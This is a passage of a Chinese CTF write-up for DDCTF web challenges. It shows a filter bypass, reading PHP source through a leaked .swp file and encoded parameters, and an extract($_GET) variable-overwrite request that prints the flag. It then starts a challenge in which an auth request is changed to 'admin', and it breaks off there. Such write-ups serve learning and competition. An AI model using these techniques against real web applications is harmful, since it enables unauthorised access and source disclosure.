 发现两处过滤：

```php
$file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);
$file = str_replace("config","!", $file);
```

所有非[a-zA-Z0-9.]的字符会被过滤，config会被替换为!

访问注释里的CSDN链接，这里有个脑洞，需要根据日期7月4号来查看CSDN博客相应的文章，文章内容是.swp文件泄露，猜测存在泄露且文件名相同

访问`/practice.txt.swp`得到内容`f1ag!ddctf.php`，因为!被过滤所以用config来替代!，传入参数`b64encode(b64encode(hex("f1agconfigddctf.php")))`读源码

```php
<?php
include('config.php');
$k = 'hello';
extract($_GET);
if(isset($uid))
{
    $content=trim(file_get_contents($k));
    if($uid==$content)
	{
		echo $flag;
	}
	else
	{
		echo'hello';
	}
}

?>
```

这个就是常规的变量覆盖了，传入`http://117.51.150.246/f1ag!ddctf.php?k=practice.txt.swp&uid=f1ag!ddctf.php`获得flag：

DDCTF{436f6e67726174756c6174696f6e73}

***

#### WEB 签到题

进入页面提示无权限

![](https://upload-images.jianshu.io/upload_images/11356161-12ce4813a6e6df78.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

抓包发现有一个Ajax请求了鉴权接口

![](https://upload-images.jianshu.io/upload_images/11356161-d7ab45a6ae8581bd.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

修改空值为admin后发包，提示访问某页面

![](https://upload-images.jianshu.io/upload_images/11356161-95a9d7a36bf26a82.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)



进入新页面，给了源码，开始审计
